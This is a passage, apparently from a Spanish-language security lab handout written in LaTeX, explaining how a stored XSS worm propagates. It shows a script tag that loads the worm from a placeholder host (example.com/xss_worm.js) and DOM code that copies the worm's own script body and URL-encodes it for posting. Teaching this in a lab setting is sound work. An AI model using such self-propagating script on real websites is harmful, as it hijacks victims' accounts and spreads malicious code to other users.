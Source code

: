 \paragraph{A través de un Link:} Si el gusano se incluye usando el atributo {\tt src} dentro del tag {\tt <script>},
su auto-propagación es mucho más fácil. 
Hemos discutido el atributo {\tt src} en la Tarea 1, a continuación se da un ejemplo.  El gusano puede copiar el siguiente
tag {\tt <script>} en el perfil de la víctima, logrando de esta manera infectar a la misma.

\begin{lstlisting}
<script type="text/javascript" src="http://www.example.com/xss_worm.js">
</script>
\end{lstlisting} 


\paragraph{A través del DOM:} Si el programa JavaScript (es decir el gusano) está embebido en un perfil infectado, para propagarse a otro perfil, el código del gusano puede servirse de las APIs del DOM para obtener una copia de sí mismo desde la página web.
A continuación se muestra un ejemplo del uso de las APIs del DOM. En el siguiente código de ejemplo se obtiene una copia del mismo y se muestra en una ventana de alerta:

{\footnotesize
\begin{lstlisting}
<script id="worm">
   var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; (*@ \ding{192} @*)
   var jsCode = document.getElementById("worm").innerHTML;          (*@ \ding{193} @*)
   var tailTag = "</" + "script>";                                  (*@ \ding{194} @*)
   
   var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); (*@ \ding{195} @*)
      
   alert(jsCode);
</script>
\end{lstlisting}
}

Cabe señalar que {\tt innerHTML} (line ) sólo devuelve el código que está dentro del tag de {\tt script} sin incluir los tags de apertura y de cierre, es por eso que necesitamos agregar el tag de inicio {\tt <script id="worm">} (line ) y el tag de cierre {\tt </script>} (line ).

Cuando la información es enviada en un Request HTTP POST y se usa el valor {\tt
application/x-www-\\form-urlencoded} para el encabezado HTTP {\tt Content-Type}, el cual es usado en nuestro código, la información que se envía debe ser codificada. El esquema de codificación o el {\tt encoding schema} es llamado \textit{URL encoding}, el objetivo del URL Encoding es reemplazar los caracteres no alfanuméricos con su código ASCII correspondiente, usando el siguiente formato {\tt \%HH}, el signo de porcentaje y dos dígitos hexadecimales. La función {\tt encodeURIComponent()} en la línea  es usada para realizar este URL Enconding.

